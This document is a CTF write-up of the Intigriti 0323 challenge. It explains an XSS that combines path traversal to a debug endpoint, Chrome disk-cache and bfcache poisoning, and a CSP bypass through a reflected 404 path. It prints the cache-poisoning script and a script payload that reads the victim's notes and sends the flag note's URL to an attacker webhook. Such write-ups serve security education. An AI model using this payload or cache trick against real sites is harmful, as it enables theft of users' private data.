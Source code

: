 ```yaml
---
layout: mypost
title: Intigriti Challenge 0323 - XSS by Chrome Cache Behaviour
categories: [web, ctf]
---
```


## Introduction

This is my first CTF writeup. Thanks to 0xGodson_ and BrunoModificato for making this challenge.

## Recon

Looking at the source code of the site, we can find this github repository containing the backend code:

```<!-- We are OpenSource Now! https://github.com/0xGodson/notes-app-2.0 -->```

The site, located at https://challenge-0323.intigriti.io/, is a note-taking application with basic functionality for creating and opening notes. These notes are discoverable from the `/notes` endpoint only with the session from which they were made. The flag is submitted to a note by a bot when you visit the `/visit` endpoint. 

## XSS

From the fact that the flag is only available from the bot, we deduce that we have to execute some XSS on the bot. So, we look for XSS sinks in the website:

1.The frontend code for `/note/:id` contains
```js
window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
```
2.The backend code for `/debug` contains
```js
// DEBUG Endpoints
// TODO: Remove this before moving to prod
app.get("/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/:id", (req, res) => {
    let mode = req.headers["mode"];
    if (mode === "read") {
        res.send(getPostByID(req.params.id).note);
    } else {
        return res.status(404).send("404");
    }
});
```
But in both endpoints there are issues with injecting an XSS. The `/note/:id` endpoint sanitizes the note data with the latest version of DOMPurify, so there will be no way to place an XSS there without a 0-day. Meanwhile, the `/debug` endpoint requires the `mode: read` header to get the note data reflected in the response.

Is there anywhere in the code that naturally uses a `mode: read` header? In fact, the frontend code for `/note/:id` gets the note data with:
```js
id = params.get("id").trim().replace(/\s\r/,'');
fetch(`/note/${id}`, {
    method: 'GET',
    headers: {
        'mode': 'read'
    },
})
.then(response => {
    return response.text()
})
.then(data => {
    if (data) {
        window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
    } else {
        document.getElementsByClassName("msg-info")[0].innerHTML="404 😭"
        window.noteContent.innerHTML = "404 😭" 
    }
})
```
The value for the `id` variable comes from a url parameter that we can control, so we could use a path traversal attack like `../debug` to make it request note data from the debug endpoint instead.

However, even if we do, DOMPurify's sanitization is applied to the response before being set to the DOM. This is problematic, as it seems to be the only place that XSS could conceivably occur given the header requirement on `/debug`.

## Controlling the Cache

Currently our problem is making the bot access `/debug` outside of `/note/:id` with the required `mode: read` header. In other words, we want the response to our request to `/debug` from `/note/:id` to be presented as is at the `/debug` endpoint, without sanitization. This idea of preserving a response prompts us to think about taking advantage of browser page caching.

In fact, this challenge shares a lot of similarities with a [recent CTF challenge](https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote). The solution describes some useful cache behaviour: 
- Chrome has a bfcache (backwards-forwards cache) and a disk cache.
- Both caches are used when accessing pages with backwards/forwards navigation.
- If the bfcache and disk cache are available, the bfcache will take priority for access if a resource is cached in both.
- The disk cache caches fetched resources. 
- The bfcache is disabled on windows opened with `window.open`.
- We can clear cached versions of a particular page by receiving an error status code (like 404) from requesting that page.

First, we direct the bot to execute `window.open` on the `/debug` page. It will receive a 404, clearing any cached versions for the page and allowing us to backwards navigate to the page later. Then, we make the bot visit `/note/:id` and make the fetch request to `/debug` with  `mode: read`. As per the cache behaviour described above, the response from `/debug` will be cached to the disk cache. To view the cached response, we make the bot backwards navigate to `/debug`. Because the window was opened with `window.open`, the disk cache will take priority over the disabled bfcache and our intentionally cached response will be viewed. 

This explanation is more intuitive when looking at the solution script to execute the exploit:
```js
const debugEndpoint = "/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/"
// open the debug note to get a 404, clearing previous cache
const evilWindow = window.open(`${victimHost}/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`);
await delay(1000);

// go to /note/:id w/ path traversal id parameter and get debug note cached
evilWindow.location = `${victimHost}/note/${noteId}?id=../debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`;
await delay(1000);

// back.html runs history.go(-2) to backwards navigate 2 pages, accessing the cached debug note
evilWindow.location = `${location.origin}/back.html`;  
// the client is rendering the note at /debug as html!
await delay(1000);
```

## Bypassing the CSP

But now, we must consider what we want to put in the note retrieved by `/debug`. If we just put `<script>...</script>`, we'll find that we run into an obstacle that we've ignored up until now: the Content Security Policy.

```js
app.use((req, res, next) => {
    res.setHeader(
        "Content-Security-Policy",
        "default-src 'self'; style-src fonts.gstatic.com fonts.googleapis.com 'self' 'unsafe-inline'; font-src fonts.gstatic.com 'self'; script-src 'self'; base-uri 'self' frame-src 'self'; frame-ancestors 'self'; object-src 'none';"
    );
    next();
});
```
The first reaction to encountering a CSP should be to consult google's [CSP evaluator](https://csp-evaluator.withgoogle.com/). The evaluator points out that the `self` value for the `script-src` parameter could be problematic if the site hosts user-controlled scripts. We will try to search for such behaviour.

Looking for endpoints on the server that reflect user input, we discover that the wildcard `/*` endpoint reflects user input:
```js
app.get("*", (req, res) => {
    res.setHeader("content-type", "text/plain"); // no xss)
    res.status = 404;
    try {
        return res.send("404 - " + encodeURI(req.path));
    } catch {
        return res.send("404");
    }
});
```
For example, if we access `/abcd`, we'll get the response `404 - /abcd`. But how could we store a script here?

Well, what if we started our payload with `0/;`? Then the response would be `404 - /0/;`, which is a valid statement in javascript (an integer minus a regex) that could be continued with additional javascript statements.

However, our input is also going to go through `encodeURI(req.path)`. From the MDN web docs, this tells us that we will only be able to use these characters:
```
A–Z a–z 0–9 - _ . ! ~ * ' ( )

; / ? : @ & = + $ , #
```
A traditional approach here will not work as we want to execute a sequence of requests. If we want to use `fetch`, we will need to use the curly brackets `{}` or arrow brackets `>` at some point to declare a function (either an async function to use `await fetch()` within, or callback functions for `.then()` chaining).

However, if we instead use the synchronous `XMLHttpRequest` to issue the request, we do not need to declare any functions. Through this observation, we arrive at this payload to exfiltrate the url of the flag note:
```js
/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>/'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);
```
Our final payload will thus be:
```html
<script src="/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);"></script>
```

## Conclusion
Now we just need to:
1. Submit this payload as a note.
2. Direct the bot to our attacker site. 
3. From the attacker site, poison the bot's cache and make it render our payload as HTML, exfiltrating the URL of the note with the flag.
4. Check our webhook for the URL of the note with the flag.

Executing this process, we obtain the flag.

The flag is `INTIGRITI{b4ckw4rD_f0rw4rd_c4ch3_x55_3h?}`.

Thanks again to the authors 0xGodson and BrunoModificato for the interesting challenge.